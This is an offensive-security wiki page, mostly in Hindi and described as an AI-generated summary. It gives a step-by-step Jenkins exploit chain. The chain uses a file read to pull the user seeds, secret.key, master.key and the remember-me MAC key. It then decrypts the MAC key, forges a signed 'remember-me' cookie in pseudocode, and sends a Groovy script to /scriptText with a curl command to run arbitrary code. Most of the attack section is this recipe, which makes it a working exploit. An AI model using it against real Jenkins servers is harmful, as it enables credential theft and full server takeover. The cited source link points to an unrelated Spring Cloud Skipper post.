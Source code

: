 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

इस ब्लॉग पोस्ट में Jenkins में Local File Inclusion भेद्यता को RCE में बदलने का एक शानदार तरीका पाया जा सकता है: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

यह एक AI द्वारा बनाई गई संक्षेप है उस पोस्ट के भाग की जहां एक मनमाना कुकी का निर्माण RCE प्राप्त करने के लिए स्थानीय फ़ाइल पढ़ने का दुरुपयोग किया जाता है जब तक कि मेरे पास अपने स्वयं के संक्षेप को बनाने का समय न हो:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" सक्षम होना चाहिए (डिफ़ॉल्ट सेटिंग)।
- **Access Levels:** हमलावर को Overall/Read अनुमतियाँ चाहिए।
- **Secret Access:** प्रमुख फ़ाइलों से बाइनरी और पाठ्य सामग्री पढ़ने की क्षमता।

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- प्रत्येक उपयोगकर्ता के लिए `$JENKINS_HOME/users/*.xml` से उपयोगकर्ता कॉन्फ़िगरेशन और रहस्यों तक पहुँचें:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- कुकी पर हस्ताक्षर करने के लिए उपयोग किए जाने वाले क्रिप्टोग्राफिक कुंजियों को निकालें:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Token Expiry Time की गणना करें:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // वर्तमान समय में एक घंटा जोड़ें
```

- **Token के लिए डेटा को संयोजित करें:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **MAC Key File को डिक्रिप्ट करें:**

```javascript
key = toAes128Key(masterKey)  // मास्टर कुंजी को AES128 कुंजी प्रारूप में परिवर्तित करें
decrypted = AES.decrypt(macFile, key)  // .mac फ़ाइल को डिक्रिप्ट करें
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **HMAC SHA256 की गणना करें:**

```javascript
mac = HmacSHA256(token, macKey) // टोकन और MAC कुंजी का उपयोग करके HMAC की गणना करें
tokenSignature = bytesToHexString(mac) // MAC को हेक्साडेसिमल स्ट्रिंग में परिवर्तित करें
```

**Cookie Encoding**

- **अंतिम कुकी उत्पन्न करें:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // कुकी डेटा को Base64 में एन्कोड करें
```

#### Step 3: Code Execution

**Session Authentication**

- **CSRF और सत्र टोकन प्राप्त करें:**
- `/crumbIssuer/api/json` पर एक अनुरोध करें ताकि `Jenkins-Crumb` प्राप्त किया जा सके।
- प्रतिक्रिया से `JSESSIONID` को कैप्चर करें, जिसका उपयोग याद रखने वाली कुकी के साथ किया जाएगा।

**Command Execution Request**

- **Groovy Script के साथ POST अनुरोध भेजें:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy स्क्रिप्ट का उपयोग सिस्टम-स्तरीय कमांड या Jenkins वातावरण के भीतर अन्य संचालन को निष्पादित करने के लिए किया जा सकता है।

उदाहरण curl कमांड दिखाता है कि आवश्यक हेडर और कुकी के साथ Jenkins को अनुरोध कैसे किया जाए ताकि मनमाना कोड सुरक्षित रूप से निष्पादित किया जा सके।

{{#include ../../banners/hacktricks-training.md}}
